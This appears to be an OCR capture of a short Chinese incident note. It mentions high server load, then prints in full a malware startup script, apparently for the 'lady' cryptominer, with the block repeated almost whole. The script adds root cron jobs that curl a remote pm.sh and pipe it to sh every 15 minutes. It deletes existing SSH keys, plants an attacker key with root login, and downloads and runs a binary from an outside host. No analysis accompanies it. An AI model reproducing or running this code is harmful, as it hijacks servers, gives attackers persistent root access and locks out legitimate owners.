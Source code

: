 uptime看到的负载值非常高。

```bash
## 启动脚本
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
    mkdir -p ~/.ssh
    rm -f ~/.ssh/authorized_keys*
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/Ag1xBkBCbdHXWb/TdRzmzf6P+d+OhV4u9nyOYpLJ53mzb1JpQVj+wZ7yEOWW/QPJEoXLKn40y5hflu/XRe4dybhQV8q/z/sDCVHT5FIFN+tKez3txL6NQHTz405PD3GLWFsJ1A/Kv9RojF6wL4l3WCRDXu+dm8gSpjTuuXXU74iSeYjc4b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
    echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
    echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
    echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
    echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
    /etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/lady" ]; then
    if [ ! -f "/etc/systemd/system/lady.service" ]; then
        mkdir -p /opt
        curl -fsSL https://r.chanstring.com/v12/lady_`uname -i` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33
    fi
fi

service lady start
systemctl start lady.service
/etc/init.d/lady start

echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
    mkdir -p ~/.ssh
    rm -f ~/.ssh/authorized_keys*
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/Ag1xBkBCbdHXWb/TdRzmzf6P+d+OhV4u9nyOYpLJ53mzb1JpQVj+wZ7yEOWW/QPJEoXLKn40y5hflu/XRe4dybhQV8q/z/sDCVHT5FIFN+tKez3txL6NQHTz405PD3GLWFsJ1A/Kv9RojF6wL4l3WCRDXu+dm8gSpjTuuXXU74iSeYjc4b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
    echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
    echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
    echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
    echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
    /etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/lady" ]; then
    if [ ! -f "/etc/systemd/system/lady.service" ]; then
        mkdir -p /opt
        curl -fsSL https://r.chanstring.com/v12/lady_`uname -i` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33
    fi
fi

```